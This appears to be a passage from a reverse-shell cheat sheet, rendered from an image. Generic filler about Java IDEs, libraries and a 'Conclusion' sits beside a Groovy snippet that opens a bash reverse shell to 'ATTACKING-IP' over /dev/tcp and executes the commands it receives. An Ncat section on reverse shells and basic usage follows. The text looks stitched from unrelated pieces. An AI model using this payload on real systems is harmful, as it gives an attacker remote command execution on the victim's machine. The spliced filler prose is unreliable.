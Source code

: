 #### Integrated Development Environments (IDEs)

There are several popular IDEs available for Java development, including Eclipse, IntelliJ IDEA, and NetBeans. These IDEs provide a range of features and tools to help developers write, debug, and test their Java code more efficiently.

#### Documentation and Libraries

Java has a vast ecosystem of libraries and frameworks that can be used to enhance the functionality of Java applications. The official Java documentation is a valuable resource for learning about the various classes and methods available in the Java standard library. Additionally, there are many online resources and forums where developers can find help and share their knowledge with others.

### Conclusion

Java is a powerful and versatile programming language that is widely used for developing a wide range of applications. By understanding the key concepts and utilizing the available tools and resources, developers can create robust and efficient Java programs.
```bash
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
## Ncat

Ncat is a powerful networking utility that can be used for various purposes, including port scanning, banner grabbing, and creating reverse shells. It is a command-line tool that comes pre-installed on many Linux distributions.

### Installation

To install Ncat on a Linux system, you can use the package manager of your distribution. For example, on Ubuntu, you can run the following command:

```
sudo apt-get install ncat
```

### Basic Usage

Ncat can be used to establish TCP and UDP connections, send and receive data, and create encrypted tunnels. Here are some basic examples of how to use Ncat:

- To connect to a remote server on a specific port:

```
ncat <server_ip> <port>
```

- To listen for incoming connections on a specific port:

```
ncat -l <port>
```
